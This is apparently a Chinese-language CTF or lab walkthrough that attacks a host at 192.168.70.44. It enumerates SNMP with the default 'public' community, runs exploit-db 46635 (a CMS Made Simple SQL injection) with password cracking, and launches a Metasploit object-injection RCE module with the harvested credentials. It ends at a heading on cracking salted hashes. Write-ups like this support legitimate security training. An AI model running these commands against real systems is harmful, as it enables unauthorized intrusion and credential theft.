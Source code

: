 其主要区别是snmpwalk是对OID值的遍历，而snmpget是取具体的OID的值。

#### snmpwalk获取信息

默认密码

```bash
snmpwalk -c public -v2c 192.168.70.44
```

#### msf攻击snmp服务

```bash
search snmp
use auxiliary/scanner/snmp/snmp_enum
set rhost 192.168.70.44
run
```

### CMS Made Simple < 2.2.10 - SQL Injection

https://www.modb.pro/db/186809

https://www.exploit-db.com/exploits/46635

#### msf搜Made Simple CMS漏洞

```bash
msfconsole

searchsploit cms made simple
```

> CMS Made Simple < 2.2.10 - SQL Injection                            | php/webapps/46635.py

```bash
cd /root
searchsploit -m 46635.py

python /root/46635.py -u http://192.168.70.44/Kashyapa --crack -w user.txt
```

#### msf搜exp

```bash
msfconsole
search made simple 2.2.8
use exploit/multi/http/cmsms_object_injection_rce
set USERNAME atri
set PASSWORD anasuya
set RHOST 192.168.70.44
set TARGETURI Kashyapa
run
```

### john爆破加盐的hash
